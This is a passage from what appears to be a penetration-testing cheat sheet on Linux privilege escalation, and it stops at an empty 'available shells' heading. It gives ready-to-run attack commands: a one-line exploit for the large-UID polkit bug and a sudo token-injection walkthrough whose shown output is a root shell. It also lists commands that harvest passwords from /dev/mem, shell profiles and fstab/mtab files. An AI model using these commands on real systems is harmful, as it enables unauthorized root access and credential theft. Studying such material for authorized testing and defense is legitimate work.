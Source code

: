### <mark style="color:orange;">Big UID</mark> <a href="#big-uid" id="big-uid"></a>

Some Linux versions were affected by a bug that allow users with **UID > INT\_MAX** to escalate privileges. More info: [here](https://gitlab.freedesktop.org/polkit/polkit/issues/74), [here](https://github.com/mirchr/security-research/blob/master/vulnerabilities/CVE-2018-19788.sh) and [here](https://twitter.com/paragonsec/status/1071152249529884674). **Exploit it** using: **`systemd-run -t /bin/bash`**

### <mark style="color:orange;">sudo\_inject</mark>

#### this has requirements, doesn't work all the time:(

#### clone the repository and run the script: [sudo\_inject](https://github.com/nongiach/sudo\_inject) requirements:

#### `$ sudo whatever` `[sudo] password for user:` `# Press+c since you don't have the password.` `# This creates an invalid sudo tokens.` `$ sh exploit.sh` `.... wait 1 seconds` `$ sudo -i # no password required :)` `# id` `uid=0(root) gid=0(root) groups=0(root)`

#### for more methods related to sudo refer to [sudo abuse](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/sudo-abuse) section.

### <mark style="color:orange;">environmental variables</mark>

see [environment variables section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/environment-variables) for methods

#### `cat /etc/profile` `cat /home/*/.bashrc | grep alias | grep -v "#"` `cat /root/.bashrc | grep alias | grep -v "#"` `cat ~/.bash_profile` `cat ~/.bashrc` `cat ~/.bash_logout` `env` `set`

### <mark style="color:orange;">in-memory password</mark>

#### `strings /dev/mem -n10 | grep -i PASS`

### <mark style="color:orange;">driver info</mark>

#### `lsmod` `/sbin/modinfo [lib]` `ls /dev 2>/dev/null | grep -i "sd"` `cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null` \`\` `#Check if credentials in fstab` `grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`

### <mark style="color:orange;">available shells</mark>
